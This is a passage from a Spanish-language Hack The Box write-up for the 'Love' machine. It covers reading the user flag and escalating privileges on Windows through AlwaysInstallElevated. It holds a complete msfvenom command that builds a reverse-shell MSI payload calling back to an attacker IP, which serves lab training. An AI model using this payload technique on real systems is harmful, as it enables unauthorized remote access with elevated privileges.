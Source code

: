 La flag de usuario la encontramos en la carpeta Desktop del usuario `phoebe`

```bash
C:\Users\Phoebe\Desktop>type user.txt
type user.txt
25b26d4d986ebccf***************
```

### Escalada Privilegios

* * *

Para el reconocimiento de la escalada de privilegios vamos a usar la herramienta `WinPEAS`. La descargamos a la máquina víctima de la siguiente forma

<img src="/assets/HTB/Love/winpeas.png">

Examinando los resultados del escaneo nos llama la atención lo siguiente

<img src="/assets/HTB/Love/always.png">

Consultamos en [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) y vemos que mediante la creación de un archivo malicioso `msi` y ejecutado con `msiexec` podemo entablarnos una reverse shell con privilegios de root. Primero de todo generamos el archivo malicioso `reverse.msi` con `msfvenom`

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.40 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```
Lo subimos a la máquina víctima, nos ponemos en escucha en el puerto 443 y procedemos a instalar según nos indican en HackTricks

